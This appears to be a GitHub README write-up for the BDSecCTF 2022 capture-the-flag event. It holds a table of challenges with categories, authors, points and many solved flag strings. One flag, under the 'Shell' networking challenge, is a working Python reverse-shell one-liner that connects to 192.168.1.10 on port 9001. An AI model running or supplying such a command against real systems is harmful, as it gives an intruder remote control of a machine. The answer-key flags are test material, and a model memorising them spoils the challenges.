

# BDSecCTF - Write Up

## Context
The goal is to solve cybersecurity tests in various categories. The validation of a challenge is done by retrieving a string called flag which confirms the fact that you have passed the associated test and allows you to obtain the associated points.

## Rules
- Time : 24h (07/20/22 17h - 07/21/22 17h (UTC+2) )
- Max Pers per Team : 5
- Submit Limit : 30 per chall

## Results 

|             |                                                                                                            |
| --------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |

## Challenges

| Chall Name                                                       | Category     | Author     | Points | Completed | Flag |
|------------------------------------------------------------------|:-------------:|:----------:|:--------------:|:------:|:---------------------------------:|
| Sound's Good                                    | Stegano          | pmsiam   | 50     | ✘ | `` |
| Deep Dive Into It !!                                           | Stegano        | pmsiam   | 250     | ✘ | `` |
| PwnRace                                    | PWN        | froghunter   | 200     | ✔ | `XXCTF{Its_a_TEst}` |
| BDSec License Checker 0x1                                    | Reverse        | NomanProdhan   | 50     | ✘ | `BDSEC{l1c3n53_ch3ck3r_0x1_2022}` |
| shashdot                                    | Reverse        | froghunter   | 50     | ✘ | `` |
| Flag Box                                    | Reverse        |  marufmurtuza   | 100     | ✔ | `` |
| Simple Math                                    | Reverse        |  marufmurtuza   | 100     | ✔ | `` |
| Poster                                    | Reverse        |  froghunter   | 100     | ✔ | `` |
| BDSec License Checker 0x03                                    | Reverse        |  NomanProdhan   | 150     | ✘ | `BDSEC{iTs_lIcEnsE_cHeCker_tHrEE_bDsEc}` |
| BDSec License Checker 0x02                                    | Reverse        |  NomanProdhan   | 200     | ✘ | `` |
| Crypto Code                                    | Crypto        | 1xR1FAT   | 25     | ✔ | `BDSEC{cryp70_and_pyth0n_ar3_aw3s0me}` |
| [VIPx01](https://github.com/Beel0w/BDSecCTF/tree/main/Cryptography/VIPx01)                                    | Crypto        | 1xR1FAT   | 25     | ✔ | `BDSEC{crypt0_ar3_aw3s0m3}` |
| VIPx02                                    | Crypto        | 1xR1FAT   | 25     | ✘ | `` |
| [Fake](https://github.com/Beel0w/BDSecCTF/tree/main/Cryptography/Fake)                                    | Crypto        | 1xR1FAT   | 50     | ✔ | `BDSEC{do3sn't_b3li3ve_1n_unkn0wn_mail}` |
| [Basically RSA](https://github.com/Beel0w/BDSecCTF/tree/main/Cryptography/Basically%20RSA)                                    | Crypto        | dyn   | 100     | ✔ | `DSEC{r54_i5_fUn_r16h7?}` |
| Dominoes                                    | Crypto        | dyn   | 50     | ✘ | `BDSEC{n0t_50_e45y_hUh?_433}` |
| Loop Lover                                    | Crypto        | dyn   | 100     | ✘ | `BDSEC{ju57_L00p_m3_4w4y}` |
| Jungle Templating                                    | WEB        |  0xmahi   | 100     | ✔ | `BDSEC{Y3Y_7H1515_7H3_F146}` |
| Awesome Note Keeping                                    | WEB        |  NomanProdhan   | 100     | ✔ | `BDSEC{tHe_n0t3_K33p1n6_4W350M3_N5}` |
| Knight Squad Shop                                    | WEB        |  froghunter   | 100     | ✔ | `` |
| [Find The Cost](https://github.com/Beel0w/BDSecCTF/tree/main/Programming/Find%20the%20Cost)                                    | Programing        | marufmurtuza| 100     | ✔ | `BDSEC{35,47}` |
| Find The Masterpiece                                    | OSINT        | marufmurtuza   | 50     | ✔ | `BDSEC{he’s_a_pirate,2003}` |
| [Find Rejvi](https://github.com/Beel0w/BDSecCTF/tree/main/OSINT/Find%20Rejvi)                                    | OSINT        | NomanProdhan   | 70     | ✔ | `BDSEC{yoU_goT_m3__oS1nT_I5_fUn_r1Gh7}` |
| Find Me Inside | OSINT        | Axif   | 50     | ✔ | `BDSEC{M33m_the_butterfly_goes_up_up_and_away}` |
| [Message of Hufflepuff](https://github.com/Beel0w/BDSecCTF/tree/main/Misc/Message%20of%20Hufflepuff)                                    | Misc        | marufmurtuza   | 50     | ✔ | `BDSEC{Huffm@n_Enc0d1ng_go7_D3COD3D}` |
| Victim & Attacker | Networking        | TareqAhamed   | 25     | ✔ | `BDSEC{192.168.1.13_192.168.1.10}` |
| Which FTP ? | Networking        | marufmurtuza   | 50     | ✔ | `BDSEC{vsFTPd_3.0.3}` |
| FTP Creads | Networking        | TareqAhamed   | 50     | ✔ | `BDSEC{ftpadmin_ftpadmin}` |
| Uploaded File | Networking        | TareqAhamed   | 50     | ✔ | `BDSEC{/files/.hacker.not}` |
| Log Filer | Networking        | TareqAhamed   | 50     | ✔ | `BDSEC{vsftpd.log}` |
| Project Incharge | Networking        | TareqAhamed   | 50     | ✔ | `` |
| Loooon Looong | Networking        | TareqAhamed   | 50     | ✔ | `BDSEC{Thu_Jul_14_10:16:59}` |
| Administrator | Networking        | TareqAhamed   | 50     | ✔ | `` |
| Shell | Networking        | TareqAhamed   | 50     | ✔ | 

`BDSEC{....`
`BDSEC{python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.10",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'}`
 |
| Secret Key | Networking        | TareqAhamed   | 50     | ✔ | `` |
| Database Admin | Networking        | TareqAhamed   | 50     | ✔ | `` |
| HostName | Networking        | TareqAhamed   | 50     | ✔ | `` |
| CodeName | Networking        | TareqAhamed   | 50     | ✔ | `` |
| Server Info | Networking        | TareqAhamed   | 50     | ✔ | `` |
| Service Exploit | Networking        | TareqAhamed   | 50     | ✔ | `BDSEC{polkit}` |
| Exploit Exploit Exploit | Networking        |  marufmurtuza   | 50     | ✔ | `` |
| Vulnerable Service | Networking        | TareqAhamed   | 50     | ✔ | `` |
| msg.txt | Networking        | TareqAhamed   | 50     | ✔ | `` |
| Attacker | Networking        | TareqAhamed   | 50     | ✔ | `BDSEC{N4N0M473}` |
| Server User's | Networking        | TareqAhamed   | 50     | ✔ | `` |
 
Credits : [Beel0w](https://github.com/Beel0w)  
Last Edited on: 22/07/2022
  
